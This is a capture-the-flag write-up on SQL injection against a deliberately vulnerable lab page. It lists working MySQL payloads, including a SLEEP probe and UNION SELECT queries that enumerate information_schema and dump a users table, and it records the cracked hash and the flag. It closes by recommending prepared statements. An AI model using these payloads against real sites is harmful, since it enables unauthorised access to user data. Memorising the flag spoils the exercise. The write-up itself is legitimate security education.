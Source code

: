 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
* 1  AND 1 = SLEEP(2);--
* 1 UNION (SELECT 1,2 FROM dual );--
* 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
* 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

    ### One of these tables is users
    Table : users
    Colunm : user_id
    Colunm : first_name
    Colunm : last_name
    Colunm : town
    Colunm : country
    Colunm : planet
    Colunm : Commentaire
    Colunm : countersign
 * And through a number of these commands we are able to retrieve out flag   
    ### Retrive flag
    *       1 UNION (SELECT user_id, first_name FROM users);--
    *       1 UNION (SELECT last_name, town FROM users);--
    *       1 UNION (SELECT country, planet FROM users);--
    *       1 UNION (SELECT Commentaire, countersign FROM users);--


{
    instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
    hash : 5ff9d0165b4f92b14994e5c685cdce28
}

flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo  -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
    https://www.youtube.com/watch?v=ciNHn38EyRc